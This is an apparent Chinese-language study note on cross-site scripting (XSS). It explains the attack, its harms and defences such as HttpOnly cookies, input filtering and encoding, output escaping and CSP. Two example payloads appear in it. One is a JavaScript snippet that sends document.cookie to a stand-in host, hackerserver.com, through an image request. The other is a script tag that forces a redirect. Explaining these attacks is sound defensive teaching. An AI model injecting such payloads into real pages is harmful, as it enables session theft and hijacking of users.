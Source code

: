 # XSS

XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码

XSS的攻击过程都是在浏览器通过执行javascript脚本自动进行，缺少与用户交互的过程

![img](https://segmentfault.com/img/remote/1460000012693785?w=1031&h=767)

### XSS的危害

- 窃取网页浏览中的cookie值，这里和CSRF的区别是，这里是拿到了cookie后主动冒充用户的，而CSRF中根本就不知cookie，仅利用浏览器的隐式校验方式冒充用户。

  ```
  var i=document.createElement("img");
  document.body.appendChild(i);
  i.src ="http://www.hackerserver.com/?c=" + document.cookie;
  ```

  

- 劫持流量实现恶意跳转
想办法插入一句像这样的语句：`<script>window.location.href="http://www.baidu.com";</script>`

- 构建Get和Post请求

  XSS可以在javascript中构建get或者post请求，来实现自己的攻击

### 防范手段
1. 给关键的Cookie设置HttpOnly属性
2. 输入检查

首先是过滤。对诸如<script>、<img>、<a>等标签进行过滤。

其次是编码。像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。

最后是限制。通过以上的案例我们不难发现xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

3. 输出转义

一般说来，除了富文本输出之外，在变量输出到HTML页面时，可以使用编码或者转义的方式来防御XSS攻击

把恶意代码摘除；如一些敏感关键字：<script>

4. CSP


